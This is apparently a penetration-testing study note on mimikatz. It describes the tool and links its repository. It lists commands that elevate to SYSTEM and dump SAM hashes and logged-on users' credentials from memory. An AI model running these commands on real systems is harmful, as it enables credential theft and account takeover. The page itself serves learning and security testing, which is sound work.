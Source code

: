 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```



# mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from github repo: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz).


## Basic usage

```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machina
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

